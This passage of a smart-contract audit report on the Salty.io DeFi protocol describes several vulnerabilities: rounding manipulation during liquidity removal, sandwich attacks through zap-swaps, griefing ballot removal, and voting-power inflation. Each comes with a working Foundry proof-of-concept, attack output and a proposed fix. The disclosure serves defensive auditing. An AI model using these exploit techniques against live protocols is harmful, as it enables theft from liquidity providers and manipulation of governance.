		vm.startPrank(address(dao));
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();
	}

	// Convenience function
	function totalSharesForPool( bytes32 poolID ) public view returns (uint256)
	{
		bytes32[] memory _pools2 = new bytes32[](1);
		_pools2[0] = poolID;

		return liquidity.totalSharesForPools(_pools2)[0];
	}

	function test_t0x1c_RoundingErrorWhileRemovingLiquidity() public {  
		// ******************************* SETUP **************************************
		// Give Alice, Bob & Charlie some tokens for testing
		token1.transfer(alice, 101);
		token2.transfer(alice, 202);
		token1.transfer(bob, 1010);
		token2.transfer(bob, 2020 + 1 ether);
		token1.transfer(charlie, 303 ether);
		token2.transfer(charlie, 606 ether);

		assertEq(totalSharesForPool( pool1 ), 0, "Pool should initially have zero liquidity share" );
		assertEq(liquidity.userShareForPool(alice, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(bob, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(charlie, pool1), 0, "Charlie's initial liquidity share should be zero");
		assertEq( token1.balanceOf( address(pools)), 0, "liquidity should start with zero token1" );
		assertEq( token2.balanceOf( address(pools)), 0, "liquidity should start with zero token2" );

		// deposit ratio of 1:2 i.e token1's price is 2 times that of token2
		uint256 addedAmount1 = 101;
		uint256 addedAmount2 = 202;

		// Alice adds liquidity in the correct ratio, as the first depositor
		vm.prank(alice);
		uint256 addedLiquidityAlice = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, addedAmount2, addedAmount1, addedAmount2, addedAmount1 + addedAmount2, block.timestamp, false );
		console.log("addedLiquidityAlice =", addedLiquidityAlice);
		assertEq(liquidity.userShareForPool(alice, pool1), addedLiquidityAlice, "Alice's share should have increased" );

		assertEq( token1.balanceOf( address(pools)), addedAmount1, "Tokens were not deposited into the pool as expected" );
		assertEq( token2.balanceOf( address(pools)), addedAmount2, "Tokens were not deposited into the pool as expected" );
		assertEq(totalSharesForPool( pool1 ), addedLiquidityAlice, "totalShares mismatch after Alice's deposit" );

		vm.startPrank(bob);
		uint256 bobInitialBalance = 2 * token1.balanceOf(bob) + token2.balanceOf(bob); // Dollar value of his holdings
		
		// Bob's 10 accounts add some liquidity too in the correct ratio
		uint numberOfAccountsUsedByBobForTheAttack = 10;
		uint256 addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, numberOfAccountsUsedByBobForTheAttack * addedAmount1, numberOfAccountsUsedByBobForTheAttack * addedAmount2, 0, 0, 0, block.timestamp, false );
		console.log("addedLiquidityBob =", addedLiquidityBob);
		skip(1 hours); 

		emit log_named_decimal_uint ("Initial ratio of token2:token1 =", 1e18 * token2.balanceOf(address(pools)) / token1.balanceOf(address(pools)), 18);
		// ******************************* SETUP ENDS **************************************

		console.log("\n\n***************************** Bob Attacks ************************************\n");
		// @audit : Bob front-runs Charlie & removes liquidity while exploiting the rounding error
		uint256 liquidityToRemove = 5; //  @audit : this causes an "unbalanced" token reduction
		// Bob's multiple accounts remove liquidity
		for (uint repeat; repeat < numberOfAccountsUsedByBobForTheAttack; repeat++) {
			liquidity.withdrawLiquidityAndClaim(token1, token2, liquidityToRemove, 0, 0, block.timestamp);
			skip(1 hours); // @audit-info : "skip" needed just for PoC, not in real attack since 10 different accounts of Bob will be used
		}
		vm.stopPrank();

		console.log("\nSkewed reserve ratio now:\n token1 = %s, token2 = %s\n", token1.balanceOf(address(pools)), token2.balanceOf(address(pools)));
		emit log_named_decimal_uint ("Manipulated ratio of token2:token1 =", 1e18 * token2.balanceOf(address(pools)) / token1.balanceOf(address(pools)), 18);

		
		// Charlie transaction goes through now which adds liquidity with suitable slippage parameters
		vm.prank(charlie);
		// @audit-info : 0.5% slippage for token2
		liquidity.depositLiquidityAndIncreaseShare( token1, token2, 303 ether, 606 ether, 303 ether, 603 ether, 903 ether, block.timestamp, false );

		// Bob swaps
		vm.prank(bob);
		(uint256 swappedOut) = pools.depositSwapWithdraw(token2, token1, 1 ether, 0, block.timestamp);
		emit log_named_decimal_uint("token1 swappedOut in exchange for 1 ether of token2 (should be greater than 0.5 ether) =", swappedOut, 18);

		// Bob withdraws all his shares 
		skip(1 hours);
		vm.prank(bob);
		liquidity.withdrawLiquidityAndClaim(token1, token2, addedLiquidityBob - liquidityToRemove * numberOfAccountsUsedByBobForTheAttack, 0, 0, block.timestamp);

		uint256 bobFinalBalance = 2 * token1.balanceOf(bob) + token2.balanceOf(bob); // In Dollar terms
		assertGt( bobFinalBalance, bobInitialBalance, "Bob did not profit" );
		console.log("\nProfit made by Bob = $", bobFinalBalance - bobInitialBalance);
	}
}
```

</details>

<br>

Output:
```js
[PASS] test_t0x1c_RoundingErrorWhileRemovingLiquidity() (gas: 1404686)
Logs:
  addedLiquidityAlice = 303
  addedLiquidityBob = 3030

  Initial ratio of token2:token1 =: 2.000000000000000000


***************************** Bob Attacks ************************************

Skewed reserve ratio now:
 token1 = 1101, token2 = 2192

  Manipulated ratio of token2:token1 =: 1.990917347865576748

  token1 swappedOut in exchange for 1 ether of token2 (should be greater than 0.5 ether) =: 0.501449772049837887

Profit made by Bob = $ 2899544099675770
```

<br>
<br>

## Recommended Mitigation Steps
We need to make sure only the correct proportion of reclaimed tokens is allowed. So calculate the smaller of the `reclaimedA` vs `reclaimedB` values and then express the other in terms of the former. This will thwart the attempt to manipulate the ratios in any way via `removeLiquidity()`:
```diff
	// Remove liquidity for the user and reclaim the underlying tokens
	// Only callable from the Liquidity contract - so it can specify totalLiquidity with authority
	function removeLiquidity( IERC20 tokenA, IERC20 tokenB, uint256 liquidityToRemove, uint256 minReclaimedA, uint256 minReclaimedB, uint256 totalLiquidity ) external nonReentrant returns (uint256 reclaimedA, uint256 reclaimedB)
		{
		require( msg.sender == address(liquidity), "Pools.removeLiquidity is only callable from the Liquidity contract" );
		require( liquidityToRemove > 0, "The amount of liquidityToRemove cannot be zero" );

		(bytes32 poolID, bool flipped) = PoolUtils._poolIDAndFlipped(tokenA, tokenB);

		// Determine how much liquidity is being withdrawn and round down in favor of the protocol
		PoolReserves storage reserves = _poolReserves[poolID];
-		reclaimedA = ( reserves.reserve0 * liquidityToRemove ) / totalLiquidity;
-		reclaimedB = ( reserves.reserve1 * liquidityToRemove ) / totalLiquidity;

+		if (reserves.reserve0 <= reserves.reserve1 ) {
+		  reclaimedA = ( reserves.reserve0 * liquidityToRemove ) / totalLiquidity;
+		  reclaimedB = ( reserves.reserve1 * reclaimedA ) / reserves.reserve0;
+		}
+		else {
+		  reclaimedB = ( reserves.reserve1 * liquidityToRemove ) / totalLiquidity;
+		  reclaimedA = ( reserves.reserve0 * reclaimedB ) / reserves.reserve1;
+		}

		reserves.reserve0 -= uint128(reclaimedA);
		reserves.reserve1 -= uint128(reclaimedB);

		// Make sure that removing liquidity doesn't drive either of the reserves below DUST.
		// This is to ensure that ratios remain relatively constant even after a maximum withdrawal.
        require((reserves.reserve0 >= PoolUtils.DUST) && (reserves.reserve1 >= PoolUtils.DUST), "Insufficient reserves after liquidity removal");

		// Switch reclaimed amounts back to the order that was specified in the call arguments so they make sense to the caller
		if (flipped)
			(reclaimedA,reclaimedB) = (reclaimedB,reclaimedA);

		require( (reclaimedA >= minReclaimedA) && (reclaimedB >= minReclaimedB), "Insufficient underlying tokens returned" );

		// Send the reclaimed tokens to the user
		tokenA.safeTransfer( msg.sender, reclaimedA );
		tokenB.safeTransfer( msg.sender, reclaimedB );

		emit LiquidityRemoved(tokenA, tokenB, reclaimedA, reclaimedB, liquidityToRemove);
		}
```

---

### <a id="h-05"></a>[H-05]
## **Adding liquidity with `useZapping = true` allows user to steal funds**
#### https://github.com/othernet-global/salty-io/blob/main/src/staking/Liquidity.sol#L88-L89
<br>

## Summary
The function [depositLiquidityAndIncreaseShare() can be called with useZapping = true](https://github.com/othernet-global/salty-io/blob/main/src/staking/Liquidity.sol#L88-L89) which internally swaps one token to another in order to maintain the correct ratio and then makes the deposit. This can be exploited to gain funds.
<br>

**_Note :_** This vulnerability was present in the previous codebase too. Although not required as part of this report, if you want to see a coded PoC which churns out identical numbers in the past implementation, then please refer [this gist](https://gist.github.com/t0x1cC0de/76dc1b0a99c8416a977da865e4a99c9b).

## Details
The protocol has taken important steps which either make a traditional sandwich attack unprofitable for the attacker or impossible to execute altogether. These are -
- AAA i.e. the internal atomic arb.
- [Limiting user swaps to one per block to prevent bypassing arbitrage within a single block](https://github.com/code-423n4/2024-03-saltyio-mitigation?tab=readme-ov-file#:~:text=Limited%20user%20swaps%20to%20one%20per%20block%20to%20prevent%20bypassing%20arbitrage%20within%20a%20single%20block). This also makes sure that a malicious user can not perform a sandwich attack by front-running another user's liquidity addition. The malicious front-run-swap and later on the back-run-swap won't be allowed by the protocol in a single block.

These constraints are however bypassed by calling the function `depositLiquidityAndIncreaseShare()` with `useZapping = true`.
<br>

Instead of doing a front-run-swap, simply let the zapping feature do it for you. This internal swap is not recorded as an actual "swap" by the protocol and hence when later on a back-run-swap is executed, it's not reverted in spite of being in the same block. Additionally, [arbitrage no longer occurs when zapping liquidity](https://github.com/code-423n4/2024-03-saltyio-mitigation?tab=readme-ov-file#:~:text=Arbitrage%20no%20longer%20occurs%20when%20zapping%20liquidity), as implemented in [this PR](https://github.com/othernet-global/salty-io/commit/f16623e6bf1cdb0845b83ebf3592e30885a8fc61). So you have now bypassed AAA as well. 

## Attack Scenario
- In a pool of `token1` and `token2`, the fair ratio to be maintained for `token1:token2` is `1:1`. One can imagine that `1 wei` of each token = `$1`.
- The first depositor, Alice calls `depositLiquidityAndIncreaseShare(token, token2, 100 ether, 100 ether, 100 ether, 100 ether, 200 ether, block.timestamp, false)` to deposit `100 ether` of each token with proper slippage parameters. She gets `2 * 100 ether = 200e18` shares.
- Another depositor, Charlie calls `depositLiquidityAndIncreaseShare( token1, token2, 100 ether, 100 ether, 100 ether, 99 ether, 199 ether, block.timestamp, false )` to attempt a deposit of `100 ether` of each token. He understands that in a dynamic market various swaps might be happening at the same time, effecting the price ratios, hence provides a slippage of around `1%` for token2 by specifying minimum token2 as `99 ether` and minimum shares as `199 ether`. He does not tolerate any slippage for token1 in our example.
- Bob, who is a malicious user, front-runs Charlie and calls `depositLiquidityAndIncreaseShare( token1, token2, 1 ether, 0, 0, 0, 0, block.timestamp, true )` to add `1 ether` of token1 with `useZapping = true`.
- The protocol makes the internal swap. If we inspect the reserves after this, we find:
```js
  new balances: token1 = 100999999999999999999, token2 = 100000000000000000000
  Manipulated ratio of token2:token1 =: 0.990099009900990099
```
- The internal zap-swap has resulted in the ratios to change.
  - **Note that** Bob can use multiple alternate accounts of his to call `depositLiquidityAndIncreaseShare()` with `useZapping = true` multiple times. This would skew the ratio even further. He just needs to take care to be within the slippage limits set by Charlie.
- Charlie's transaction goes through after Bob's transaction. His slippage parameters were invoked.
- Bob now swaps `1 ether` of token2 for token1. He calls `depositSwapWithdraw(token2, token1, 1 ether, 0, block.timestamp)` and receives `1.004950249987624375 ether` of token1, higher than the market rate of `1 ether`.
- Bob now withdraws his entire liquidity shares to make a profit of `$2462673092946115`.

## Impact
Bob can steal funds from Charlie and profit.

## Proof of Concept

<details><summary>Click to view PoC</summary>

Create a new file `src/staking/tests/ZapSwap.t.sol` with the following code and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_t0x1c_ZapSwapGain`:
```js
// SPDX-License-Identifier: Unlicensed
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";


contract ZapSwap is Deployment
{
	bytes32[] public poolIDs;
	bytes32 public pool1;

	IERC20 public token1;
	IERC20 public token2;

	address public constant alice = address(0x1111);
	address public constant bob = address(0x2222);
	address public constant charlie = address(0x3333);

	uint256 token1DecimalPrecision;
	uint256 token2DecimalPrecision;

	function setUp() public
	{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();


		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.prank(address(daoVestingWallet));
		salt.transfer(DEPLOYER, 1000000 ether);

		token1DecimalPrecision = 18;
		token2DecimalPrecision = 18;

		token1 = new TestERC20("TEST", token1DecimalPrecision);
		token2 = new TestERC20("TEST", token2DecimalPrecision);

		pool1 = PoolUtils._poolID(token1, token2);

		poolIDs = new bytes32[](1);
		poolIDs[0] = pool1;

		// Whitelist the _pools
		vm.startPrank( address(dao) );
		poolsConfig.whitelistPool(token1, token2);
		vm.stopPrank();

		vm.prank(DEPLOYER);
		salt.transfer( address(this), 100000 ether );


		salt.approve(address(liquidity), type(uint256).max);

		vm.startPrank(alice);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(bob);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(charlie);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		// DAO gets some salt and pool lps and approves max to staking
		token1.transfer(address(dao), 1000 * 10**token1DecimalPrecision);
		token2.transfer(address(dao), 1000 * 10**token2DecimalPrecision);
		vm.startPrank(address(dao));
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();
	}

	// Convenience function
	function totalSharesForPool( bytes32 poolID ) public view returns (uint256)
	{
		bytes32[] memory _pools2 = new bytes32[](1);
		_pools2[0] = poolID;

		return liquidity.totalSharesForPools(_pools2)[0];
	}
	
	function test_t0x1c_ZapSwapGain() public {  
		// ******************************* SETUP **************************************
		// Give Alice, Bob & Charlie some tokens for testing
		token1.transfer(alice, 100 ether);
		token2.transfer(alice, 100 ether);
		token1.transfer(bob, 1 ether);
		token2.transfer(bob, 1 ether);
		token1.transfer(charlie, 100 ether);
		token2.transfer(charlie, 100 ether);

		assertEq(totalSharesForPool( pool1 ), 0, "Pool should initially have zero liquidity share" );
		assertEq(liquidity.userShareForPool(alice, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(bob, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(charlie, pool1), 0, "Charlie's initial liquidity share should be zero");
		assertEq( token1.balanceOf( address(pools)), 0, "liquidity should start with zero token1" );
		assertEq( token2.balanceOf( address(pools)), 0, "liquidity should start with zero token2" );

		// deposit ratio of 1:1 i.e token1's price is 1 times that of token2
		uint256 addedAmount1 = 100 ether;
		uint256 addedAmount2 = 100 ether;

		// Alice adds liquidity in the correct ratio, as the first depositor
		vm.prank(alice);
		uint256 addedLiquidityAlice = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, addedAmount2, addedAmount1, addedAmount2, addedAmount1 + addedAmount2, block.timestamp, false );
		console.log("initial balances: token1 = %s, token2 = %s", token1.balanceOf( address(pools)), token2.balanceOf( address(pools)));
		emit log_named_decimal_uint ("Initial ratio of token2:token1 =", 1e18 * token2.balanceOf(address(pools)) / token1.balanceOf(address(pools)), 18);

		assertEq(liquidity.userShareForPool(alice, pool1), addedLiquidityAlice, "Alice's share should have increased" );
		assertEq( token1.balanceOf( address(pools)), addedAmount1, "Tokens were not deposited into the pool as expected" );
		assertEq( token2.balanceOf( address(pools)), addedAmount2, "Tokens were not deposited into the pool as expected" );
		assertEq(totalSharesForPool( pool1 ), addedLiquidityAlice, "totalShares mismatch after Alice's deposit" );
		uint256 bobInitialBalance = token1.balanceOf(bob) + token2.balanceOf(bob); // In Dollar terms
		// ******************************* SETUP ENDS **************************************
		
		console.log("\n\n***************************** Bob Zap-Swap Attack ************************************\n");

		vm.prank(bob);
		uint256 addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, 1 ether, 0, 0, 0, 0, block.timestamp, true );
		console.log("new balances: token1 = %s, token2 = %s", token1.balanceOf( address(pools)), token2.balanceOf( address(pools)));
		emit log_named_decimal_uint ("Manipulated ratio of token2:token1 =", 1e18 * token2.balanceOf(address(pools)) / token1.balanceOf(address(pools)), 18);

		// Charlie transaction goes through now which adds liquidity with suitable slippage parameters
		vm.prank(charlie);
		// @audit-info : 1% slippage for token2
		liquidity.depositLiquidityAndIncreaseShare( token1, token2, 100 ether, 100 ether, 100 ether, 99 ether, 199 ether, block.timestamp, false );

		// Bob swaps
		vm.prank(bob);
		(uint256 swappedOut) = pools.depositSwapWithdraw(token2, token1, 1 ether, 0, block.timestamp);
		emit log_named_decimal_uint("token1 swappedOut in exchange for 1 ether of token2 (should be greater than 1 ether) =", swappedOut, 18);

		skip(1 hours);
		vm.prank(bob);
		liquidity.withdrawLiquidityAndClaim(token1, token2, addedLiquidityBob, 0, 0, block.timestamp);

		uint256 bobFinalBalance = token1.balanceOf(bob) + token2.balanceOf(bob); // In Dollar terms
		assertGt( bobFinalBalance, bobInitialBalance, "Bob did not profit" );
		console.log("\nProfit made by Bob = $", bobFinalBalance - bobInitialBalance);
	}
}
```

</details>

<br>

Output:
```js
[PASS] test_t0x1c_ZapSwapGain() (gas: 947570)
Logs:
  initial balances: token1 = 100000000000000000000, token2 = 100000000000000000000
  Initial ratio of token2:token1 =: 1.000000000000000000


***************************** Bob Zap-Swap Attack ************************************

  new balances: token1 = 100999999999999999999, token2 = 100000000000000000000
  Manipulated ratio of token2:token1 =: 0.990099009900990099

  token1 swappedOut in exchange for 1 ether of token2 (should be greater than 1 ether) =: 1.004950249987624375

Profit made by Bob = $ 2462673092946115
```

<br>
<br>

## Recommended Mitigation Steps
The `useZapping = true` option gives users the power to perform multiple actions which are otherwise actively blocked by the protocol individually. I would recommend to remove the zap functionality altogether. Removing this along with the fixes proposed in the following bug reports + the newly added features by the protocol should be sufficient to thwart any sandwich attacks via reserve ratio manipulation:
- Report titled _"Rounding loophole while adding liquidity can be exploited to steal value"_
- Report titled _"`removeLiquidity()` executes unbalanced token removal due to rounding bug, allowing user to steal funds"_
- _"Limited user swaps to one per block to prevent bypassing arbitrage within a single block"_ implemented in [this PR](https://github.com/othernet-global/salty-io/commit/2d1b7df004394720c0d8bb4aefe903021631eff3) (under _Extra scope_ [E5](https://github.com/code-423n4/2024-03-saltyio-mitigation?tab=readme-ov-file#:~:text=Limited%20user%20swaps%20to%20one%20per%20block%20to%20prevent%20bypassing%20arbitrage%20within%20a%20single%20block)).
- Salty's inherent AAA.

<br><br>

## **MEDIUM-SEVERITY BUGS**
---

### <a id="m-01"></a>[M-01]
## **Proposal can be removed after 30 days without owner's consent**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256
<br>

## Summary & Impact
The [mitigation](https://github.com/othernet-global/salty-io/commit/758349850a994c305a0ab9a151d00e738a5a45a0) for [M-19](https://github.com/code-423n4/2024-01-salty-findings/issues/362) was meant to ensure to avoid trapping the proposers indefinitely if their proposal had still not met quorum after 30 days. Hence the function [manuallyRemoveBallot()](https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256) is introduced which can be called by **_anyone_**.
<br>

The fix incorrectly assumes that the owner will always want their proposal to be cancelled after 30 days. This is not true. If their proposal is quite close to reaching quorum, the owner may want to keep it alive for a few more days. However, a griefer or someone who has voted against the ballot can choose to delete the proposal. <br>

This choice of deleting the ballot ought to remain in the hands of only the proposal owner.

## Proof of Concept
- Total staked salt = 6,000,000 in the system right now.
- Alice stakes her 650,000 salt. The total salt staked is now 6,000,000 + 650,000 = 6,650,000
- Alice floats her proposal.
- Minimum quorum required is 10% of 6,650,000 = 665,000
- Alice votes `yes` but this is still less than minimum required quorum.
- 30 days pass. Alice can see the proposal is tantalizingly close to reaching quorum and has an overwhelming majority of `yes` votes. So she plans to wait for another couple of days.
- Bob does not want the proposal to go through. Since 30 days have passed, he calls `manuallyRemoveBallot()` to remove the proposal. 
- Alice can do nothing to stop Bob.

Add the following tests inside `src/dao/tests/DAO.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_30dayRemoval` to see the test pass:
```js
  function test_30dayRemoval() public {
      // ********************* SETUP ********************************
      deal(address(salt), address(DEPLOYER), 6_000_000 ether);
      vm.prank(DEPLOYER);
      staking.stakeSALT(6_000_000 ether);
          
      // Set up the parameters for the proposal
      uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
      uint256 ballotID = 1;

      // Alice stakes her SALT to get voting power
      uint256 aliceStakedAmount = 650_000 ether;
      deal(address(salt), address(alice), aliceStakedAmount);
      // ************************************************************


      vm.startPrank(alice);
      staking.stakeSALT(aliceStakedAmount);
      // Propose a parameter ballot
      proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
      // Alice casts a vote, but not enough for quorum
      // minQuorum required = 10% of (6_000_000 + 650_000) ether = 665_000 ether
      proposals.castVote(ballotID, Vote.INCREASE);
      assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount);
      vm.stopPrank();

      skip(30 days);
      assertEq(proposals.ballotForID(ballotID).ballotIsLive, true, "Ballot should have been Live");

      // Bob calls `manuallyRemoveBallot()` to remove the proposal
      vm.prank(bob);
      dao.manuallyRemoveBallot(ballotID);
      assertEq(proposals.ballotForID(ballotID).ballotIsLive, false, "Ballot should have been removed");
  }
```

## Recommended Mitigation Steps
Inside `manuallyRemoveBallot()`, ensure that `msg.sender` is the owner of the proposal.

## Conclusion
New attack vector created due to the fix.

---

### <a id="m-02"></a>[M-02]
## **Salt can still be reused for voting, increasing malicious user's voting power**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/DAO.sol#L256
<br>

## Summary & Impact
The [mitigation](https://github.com/othernet-global/salty-io/commit/758349850a994c305a0ab9a151d00e738a5a45a0) for [M-06](https://github.com/code-423n4/2024-01-salty-findings/issues/844) is meant to stop the following flow:
- Alice stakes & votes `yes`
- Alice unstakes
- Alice sends SALT to other account (Bob)
- Bob stakes & votes `yes`

This "reuses" the SALT. The current fix does not mitigate it. All the above actions are still allowed. Here's the same flow explained with real numbers (later reporoduced in the coded PoC):
- Pre-requisite for this attack vector: `StakingConfig.minUnstakeWeeks <= ballotMinimumDuration`
  - Assume `StakingConfig.minUnstakeWeeks` = 2 weeks and `ballotMinimumDuration` = 14 days (i.e. 2 weeks)
  - Total staked salt = 6,000,000 in the system right now
  - Alice stakes her 650,000 salt
  - A proposal is floated
  - Alice votes `yes` but this is still less than minimum required quorum of 665,000. Current count of `yes` votes = 650,000.
  - She unstakes her xSalt providing a duration of `StakingConfig.minUnstakeWeeks` which is 2 weeks
  - Alice receives part of her salt after 2 weeks equalling an amount of 130,000
  - She transfers this salt to Bob, which is just another wallet of hers
  - Bob stakes 130,000 salt and votes `yes`
  - Thus, Alice increased her voting power and the total count of `yes` votes now is 650,000 + 130,000 = 780,000

## Proof of Concept
Add the following tests inside `src/dao/tests/DAO.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_unstakingManipulatesVotingPower` to see the test pass:
```js
  function test_unstakingManipulatesVotingPower() public {
    // @audit-info : Pre-requisite for the attack `StakingConfig.minUnstakeWeeks <= ballotMinimumDuration`. Either
    // increase `ballotMinimumDuration` to 14 days OR decrease `StakingConfig.minUnstakeWeeks` to 1 week.
    vm.startPrank( address(dao) );
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    daoConfig.changeBallotDuration(true);
    assertEq(daoConfig.ballotMinimumDuration(), 14 days, "ballot duration != 14 days");
    vm.stopPrank();

    deal(address(salt), address(DEPLOYER), 6_000_000 ether);
    vm.prank(DEPLOYER);
    staking.stakeSALT(6_000_000 ether);

    // Set up the parameters for the proposal
    uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
    uint256 ballotID = 1;

    // Alice stakes her SALT to get voting power
    uint256 aliceStakedAmount = 650_000 ether;
    deal(address(salt), address(alice), aliceStakedAmount);

    vm.startPrank(alice);
    staking.stakeSALT(aliceStakedAmount);
    // Propose a parameter ballot
    proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
    // Alice casts a vote, but not enough for quorum
    // minQuorum required = 10% of (6_000_000 + 650_000) ether = 665_000 ether
    proposals.castVote(ballotID, Vote.INCREASE);
    assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount);
    vm.stopPrank();

    // Following activities done before anyone calls `finalizeBallot()`
    // Alice partially unstakes her SALT
    vm.startPrank(alice);
    uint256 unstakeID = staking.unstake(aliceStakedAmount, 2); // Alice will receive 130_000 ether of salt back
    skip(14 days);
    staking.recoverSALT(unstakeID); // Alice will receive 130_000 ether of salt back
    salt.transfer(address(bob), 130_000 ether); // Alice transfers the salt to Bob
    vm.stopPrank();

    // Bob stakes and casts vote
    vm.startPrank(bob);
    salt.approve(address(staking), 130_000 ether);
    staking.stakeSALT(130_000 ether);
    proposals.castVote(ballotID, Vote.INCREASE);
    vm.stopPrank();
    assertEq(proposals.votesCastForBallot(ballotID, Vote.INCREASE), aliceStakedAmount + 130_000 ether); // @audit : votes incremented
  }
```

## Recommended Mitigation Steps
- Add a constraint that anyone who has voted in an active ballot shouldn't be able to unstake until that ballot is no more live.
- It also makes sense to store the snapshot of total staked values and voting powers when the proposal is introduced and use those values instead of the live figures. A different [PR](https://github.com/othernet-global/salty-io/commit/c46069644739885fa36e84e27e1dd6362b854663) to handle [M-11](https://github.com/code-423n4/2024-01-salty-findings/issues/716) does this only partially. More details in my report titled _"Partial snapshot means staking after proposal creation gives unfair benefit"_.

## Conclusion
The fix did not mitigate the original issue.

---

### <a id="m-03"></a>[M-03]
## **Partial snapshot means staking after proposal creation gives unfair benefit**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L110
<br>

## Summary & Impact
The [mitigation](https://github.com/othernet-global/salty-io/commit/c46069644739885fa36e84e27e1dd6362b854663) for [M-11](https://github.com/code-423n4/2024-01-salty-findings/issues/716) is meant to stop the user from getting extra voting power (by reducing the quorum) via unstaking their SALT after proposal creation. Although the fix on [L110](https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L110) successfully mitigates the existing issue by saving the value of `requiredQuorum` at the time of proposal creation, new attack vectors open up due to it.

## Attack Vector 1
- Suppose the initial staked amount in the system is `6_000_000` (all figures in `ether`, so `6_000_000 * 10**18`).
- Alice has `630_000` with her which she wants to stake and float a proposal.
- It works in Alice's favour to not stake all the amount at once. This is because if she stakes all at once, the required quorum would be `10% of (6_000_000 + 630_000) = 663_000` and hence she will have to depend on others for her proposal to pass. She realizes there's a better way to keep the required quorum value in her favour. 
- Alice stakes with `aliceStakedAmount_1 = 60_000` and floats a proposal.
- The `requiredQuorum` right now is `10%` which equals ` 606000`.
- She now stakes her remaining `aliceStakedAmount_2 = 570_000`. This can be staked immediately after proposal creation or after a wait time of 14 days.
- Alice votes `yes`. Her proposal now has `630_000` votes, surpassing the `requiredQuorum` and hence passing the proposal.
- Alice can now _optionally_ choose to unstake her SALT.

## Attack Vector 2
- Suppose the initial staked amount in the system is `6_000_000` (all figures in `ether`, so `6_000_000 * 10**18`).
- Alice **has already staked** `630_000` and she now wants to float a new proposal.
- Alice **unstakes** `570_000`. She only has `60_000` staked now. 
- She floats a proposal.
- The `requiredQuorum` right now is `10%` which equals ` 606000`.
- She now calls `cancelUnstake()` to get her `570_000` back.
- Alice votes `yes`. Her proposal now has `630_000` votes, surpassing the `requiredQuorum` and hence passing the proposal.

## Recommended Mitigation Steps
It is not sufficient to only save the snapshot by storing the `requiredQuorum` on [L110](https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L110) at proposal creation time. The protocol needs to also save the voting power of the users at that timestamp. Any SALT staked later on can not be included in voting power.

## Proof of Concept
Add these 2 tests inside `src/dao/tests/DAO.t.sol` and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_t0x1c_` to see both the tests pass:
```js
  function test_t0x1c_stakingAfterProposalCreation() public {
    deal(address(salt), address(DEPLOYER), 6_000_000 ether);
    vm.prank(DEPLOYER);
    staking.stakeSALT(6_000_000 ether);

    // Set up the parameters for the proposal
    uint256 proposalNum = 0; // Assuming an enumeration starting at 0 for parameter proposals
    uint256 ballotID = 1;
    deal(address(salt), address(alice), 630_000 ether);

    // Alice stakes her SALT to get voting power
    uint256 aliceStakedAmount_1 = 60_000 ether;
    uint256 aliceStakedAmount_2 = 570_000 ether;

    vm.startPrank(alice);
    staking.stakeSALT(aliceStakedAmount_1);

    // Propose a parameter ballot
    proposals.proposeParameterBallot(proposalNum, "Increase max pools count");
    emit log_named_decimal_uint("requiredQuorumForBallotType =", proposals.requiredQuorumForBallotType(BallotType.PARAMETER), 18);

    // stakes again with a much larger amount, now that the proposal has been floated
    staking.stakeSALT(aliceStakedAmount_2);

    skip(14 days);

    // Alice casts a vote, enough for quorum
    proposals.castVote(ballotID, Vote.INCREASE);

    // OPTIONAL STEP -- Alice unstakes her SALT
    // staking.unstake(aliceStakedAmount_1 + aliceStakedAmount_2, 52);
    vm.stopPrank();

    emit log_named_decimal_uint("votes cast in favour =", proposals.votesCastForBallot(ballotID, Vote.INCREASE), 18);

    // Now it should be possible to finalize the ballot
